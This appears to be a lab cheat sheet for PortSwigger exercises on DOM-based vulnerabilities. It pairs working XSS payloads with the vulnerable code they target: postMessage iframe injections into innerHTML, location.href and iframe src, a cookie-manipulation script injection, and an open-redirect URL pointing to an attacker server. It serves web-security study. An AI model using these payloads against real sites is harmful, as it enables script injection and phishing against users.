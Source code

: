 # DOM-based Vulnerabilities

## Summary

* [Recon for DOM-based Vulnerabilities](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Recon

### Identify DOM-based Vulnerabilities

* DOM XSS happens when client-side JavaScript takes user-controllable input (source) and includes it into a dangerous function (sink).

* Use the Browser's Developers Tool and go to the Sources/Debugger tab.  In every page we can search for the keyword “script”, and we can also search through all the JavaScript files.

* In these files/pages, we can search for any **user-controllable sources** and **dangerous sinks** that the JavaScript is using.

* Analyze if JavaScript is taking any sources and including them into dangerous sinks.

* Search all static JavaScript files too.

* The labs in this document and in the [Cross-site Scripting/DOM XSS](#https://portswigger.net/web-security/cross-site-scripting/dom-based) section, include examples of user-controllable sources being used in dangerous sinks.


### Common Sources and Sinks

* https://portswigger.net/web-security/dom-based#common-sources

* https://portswigger.net/web-security/dom-based#which-sinks-can-lead-to-dom-based-vulnerabilities


---
---


## Cheat Sheet 


### Source - Web Messages

* Use web messages as a source to send malicious data to a target window that will take in that data and include it in a dangerous sink.  

    * Example:  window.postMessage(“\<img src=x onerror=alert(1)\>”)

```html
<iframe src="https://VULNERABLE-APPLICATION.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
<br></br>
* **Vulnerable Code:**

```javascript
<script>
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
</script>
```

<br></br>
### Source - Web Messages location.href()

* Use web messages as a source to send malicious data to a target window that will take in that data and include it in a dangerous sink.  Example, the code will place the user-controllable input into the location.href sink, if the message contains the String “http:”. 

    * Example:  window.postMessage(“javascript:alert(1)//http:”)

```html
<iframe src="https://VULNERABLE-APPLICATION.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```
<br></br>

* **Vulnerable Code:**

```javascript
<script>
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
</script>
```

<br></br>

### Source - Web Messages JSON.parse()

* There is a client-side script on the application that has an event listener that is listening for a web message.  It is possible to submit crafted input which will be included in the “src” attribute of an \<iframe\>.  This is essentially the “location.href” sink.  We can use a JavaScript pseudo-protocol payload here – javascript:print()

```html
<iframe src=https://VULNERABLE-APPLICATION.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

<br></br>

* **Vulnerable Code:**

```javascript
<script>
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
</script>
```

<br></br>

### DOM XSS - Open Redirection

* There was a client-side script on the application that is taking in a query parameter called “url” and using the value in a location.href Sink.  The URL needs to begin with “https://”.  The JavaScript Pseudo-protocol will not work here in this case.  This will simply redirect a user to a different website, can be used for phishing.

```
https://VULNERABLE-APPLICATION.net/post?postId=4&url=https://ATTACKER-SERVER.web-security-academy.net/
```


* **Vulnerable Code:**

```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>
```

<br></br>

### DOM XSS - Cookie Manipulation

* The “window.location” source is being appended to a Cookie using the “document.cookie”.  This Cookie value is reflected back in the application's response within an HTML attribute.  Submit a crafted URL that will break out of the HTML context and execute JavaScript code.

    * Example:  \<a href='https://VULNERABLE-APP.net/product?productId=*user-input*'\>

    * Payload:  '\>\<script\>print()\</script\>

* The iframe will first load the vulnerable URL, which  will store it in "window.location" source.  Then the onload event will redirect to another page on the application, which will trigger the javascript, as the URL is reflected in the response.

```html
<iframe src="https://VULNERABLE-APP.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://VULNERABLE-APP.net';window.x=1;">
```


